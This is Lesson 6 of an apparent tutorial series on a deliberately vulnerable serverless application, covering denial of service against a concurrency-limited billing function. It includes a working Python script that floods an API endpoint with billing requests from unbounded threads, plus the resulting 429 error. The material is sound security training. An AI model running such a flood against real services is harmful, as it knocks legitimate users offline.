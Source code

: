 # LESSON #6: Denial of Service (DoS)

To avoid flooding the 3rd party payment processing (its not really 3rd-party, but think about it as a STIPE) the DVSA is configured to allow only 10 concurrent invocation of the billing processing.

This means that an attacker can cause a Denial of Service on the payment processing in the applicaiton, simply by sending the billing request in at least 10 parallel threads.

This simply python code will exploit it (with sample data):
```
import threading
import requests

def dos():
    payload = '{ "action":"billing", "order-id": "9f51b1e1-eff9-4dc1-8e17-7ee19ba51272", "data": {"ccn": "4242424242424242", "exp": "11/2020", "cvv": "444"} }'
    url = "https://qz0yy61905.execute-api.us-east-1.amazonaws.com/dev/order"
    headers = {"Authorization": "eyJraWQiOiIyQ1dZekh0dTV..............BVVplWk9qenw"}

    r = requests.post(url, data=payload, headers=headers)
    print (r.text)
    return


while True:
    threading.Thread(target=dos).start()

```

As a result, any other user that will try to invoke this service will receice:
```
{
  "message": "Rate Exceeded.",
  "code": "TooManyRequestsException",
  "time": "2018-12-22T23:25:29.935Z",
  "requestId": "deec6aa7-0640-11e9-9e02-a529a60fefd1",
  "statusCode": 429,
  "retryable": false,
  "retryDelay": 17.57835303415325
}
```
- - -
[ToC](../LESSONS/README.md) | [1](../LESSONS/LESSON_01.md) | [2](../LESSONS/LESSON_02.md) | [3](../LESSONS/LESSON_03.md) | [4](../LESSONS/LESSON_04.md) | [5](../LESSONS/LESSON_05.md) | [6](../LESSONS/LESSON_06.md) | [7](../LESSONS/LESSON_07.md) | [8](../LESSONS/LESSON_08.md) | [9](../LESSONS/LESSON_09.md) | [10](../LESSONS/LESSON_10.md)

